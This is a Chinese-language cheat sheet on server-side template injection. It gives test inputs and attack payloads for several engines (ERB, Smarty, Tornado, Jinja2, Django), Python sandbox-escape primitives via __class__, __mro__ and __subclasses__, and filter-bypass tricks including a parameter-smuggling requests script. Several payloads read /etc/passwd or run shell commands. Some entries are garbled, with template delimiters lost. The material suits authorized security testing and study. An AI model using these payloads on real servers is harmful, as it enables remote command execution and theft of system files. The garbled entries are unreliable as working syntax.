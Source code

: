 ## 概要

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

## 测试方法

-   确定使用的引擎
-   查看引擎相关的文档，确定其安全机制以及自带的函数和变量
-   需找攻击面，尝试攻击

## 测试用例

-   简单的数学表达式，模板:7+7 => 14
-   字符串表达式  模板:"ajin" => ajin
-   Ruby

```
 <%= 7 * 7 %><%= File.open('/etc/passwd').read %>
```

-   Java

```
 ${7*7}
```

-   Twig

```
 模板:7*7
```

-   Smarty

```
 {php}echo id;{/php}
```

-   AngularJS

```
 $eval('1+1')
```

-   Tornado

```
 引用模块 {% import module %}=> {% import os %}模板:Os.popen("whoami").read()
```

-   Flask/Jinja2

```
 模板:Config模板:Config.items()'{{get_flashed_messages.__globals__['current_app'].config}}'{{.__class__.__mro__[-1].__subclasses__()}}'{{ url_for.__globals__['__builtins__'].__import__('os').system('ls') }}'{{ request.__init__.__globals__['__builtins__'].open('/etc/passwd').read() }}
```

-   Django

```
 模板:Request'{% debug %}'{% load module %}'{% include "x.html" %}'{% extends "x.html" %}
```

## 目标

-   创建对象
-   文件读写
-   远程文件包含
-   信息泄漏
-   提权

## 相关属性

### **__class__**

python中的新式类（即显示继承object对象的类）都有一个属性 __class__ 用于获取当前实例对应的类，例如 "".__class__ 就可以获取到字符串实例对应的类

### **__mro__**

python中类对象的 __mro__ 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

### **__globals__**

保存了函数所有的所有全局变量，在利用中，可以使用 __init__ 获取对象的函数，并通过 __globals__ 获取 file os 等模块以进行下一步的利用

### **__subclasses__()**

python的新式类都保留了它所有的子类的引用，__subclasses__() 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。 因为python中的类都是继承object的，所以只要调用object类对象的 __subclasses__() 方法就可以获取想要的类的对象。

## 常见Payload

```
-   ().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()
-   ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )
```
## 绕过技巧

### 字符串拼接

```
request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]
```

### 使用参数绕过

```
params = {
    'clas': '__class__',
    'mr': '__mro__',
    'subc': '__subclasses__'
}
data = {
    "data": "{{[request.args.clas][request.args.mr][1][request.args.subc]()}}"
}
r = requests.post(url, params=params, data=data)
print(r.text)
```

## 参考链接

-   [服务端模版注入](https://zhuanlan.zhihu.com/p/28823933)
-   [用Python特性任意代码执行](http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/)